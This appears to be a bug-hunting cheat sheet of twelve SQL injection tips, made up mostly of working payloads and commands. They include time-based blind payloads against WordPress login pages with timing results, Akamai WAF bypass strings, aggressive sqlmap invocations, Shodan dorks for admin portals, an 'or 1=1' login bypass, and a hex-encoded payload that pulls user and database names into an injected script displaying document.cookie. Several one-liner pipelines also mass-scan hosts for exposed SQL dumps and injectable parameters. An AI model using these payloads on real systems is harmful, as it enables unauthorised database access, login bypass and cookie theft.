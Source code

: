 
							Finding SQLi TIPS
							------------------------

 #Tip1:-
 ==========
        - Fuzzing on subdomain.com on this wordlist [https://t.co/btRdm0tpcn]
	- But get all result 403
	- Search on shodan IPs
	- You can find the same service on
		subset.com
	- Fuzzing Again
	- subtest.domain/wp-content/mysql.sql


 #Tip 2:
 ========
	Finding SQLi using jeeves
	$ echo "example.com" | gf sqli | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 10
	[https://t.co/nZqYEhLgIE]


 #Tip 3:
 =======
	This is how to find sql-Injection of the time
	/?q=1
	/?q=1'
	/?q=1"
	/?q=[1]
	/?q[]=1
	/?q=1`
	/?q=1\
	/?q=1/*'*/
	/?q=1/*!1111'*/
	/?q=1'||'asd'||'   <== concat string
	/?q=1' or '1'='1
	/?q=1 or 1=1
	/?q='or''='
	/?q=")
	/?q=')
	/?q=-x()

**Try This Payload in Wp-login.php page**
	0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 20.002
	0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 7.282
	0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.912
	0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 16.553
	0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.463
	0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 1.229
	0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 7.79

 #Tip 4:
=========
	How to find SQLi using Shodan
	1. Shodan dork: SSL:""
	2. Found employee's admin portal and username input vulnerable to sqli.
	3. Sqlmap command:
	$ sqlmap  -r req.txt --batch --force-ssl --level 5 --risk 3 --dbs --hostname --current-user -p "username"
	$- sqlmap -u http://example.com --batch --banner --tamper=space2comment --user-agent=random

 #Tip 5:
=========
	SQL injection vulnerable to XSS:
	
 	Payload:
 	concat(0x3c7363726970743e70726f6d70742822,0x3078336e30,0x7c7c,user(),0x7c7c,database(),
        0x222c646f63756d656e742e636f6f6b6965293c2f7363726970743e)


 #Tip 6:
 =========
	SQLi payload in .html site and reflected in the title.
	example site: [example.com/index.html]
	website/example'+union+select+CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION())+--+.html


 #Tip 7:
 ============
        You can inject header too with SQLi POC:
 	$ sqlmap -u "https://example.com" --header="X-Forwarded-For: 1*" --dbs --batch --random-agent --threads=10



 #Tip 8:
==========
 	- Uncover the Blind SQL injection with 'XOR' operator
 	/path/to/vuln?param=not_exist'XOR(if(now()=sysdate(),sleep(5),0))XOR'

	- Hanging with WAF
 	/path/to/vuln?param=not_exist%27XoR(if(nOw()=SySDaTe(),/**/SlEep(5),/**/0))XoR%27/*


	_Akami WAF Bypass & SQLi
	  'XOR(if(now()=sysdate(),sleep(5*5),0))OR'


 #Tip 9:
================
 
 	SQL injection:
 	In username,email parameter
	login, sigup, forget 
  
	Add this Sleep Payload 
	abdul'||DBMS_PIPE.RECEIVE_MESSAGE(CHR(98)||CHR(98)||CHR(98),10)||'


 #Tip 10:
==============
	~Admin Panel Access via sqli:
 	
 	1- Search for login page through with dork:
 	   org:"Target.com" http.title:"Login"
	2- Bypass login with old way
 	   admin' or 1=1

	++++++++++++++++++++++++++++++++++++++++++++++
 
	Useful onliner command to find sql using httpx:
	$ cat host.txt | httpx -c -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -p 80,443,8080,8443 | anew myP1s.txt


Tips 11:
=================

	SQLi-TimeBased scanner

	gau DOMAIN.tld  | sed 's/=[^=&]*/=YOUR_PAYLOAD/g' | grep ?*= | sort -u | while read host;do (time -p curl -Is $host) 2>&1 | awk '/real/ { r=$2;if (r >= TIME_OF_SLEEP ) print h " => SQLi Time-Based vulnerability"}' h=$host ;done

===================

Tips: 12:
========
	Oneliner Sqli:
	--------------
	findomain -t http://testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1













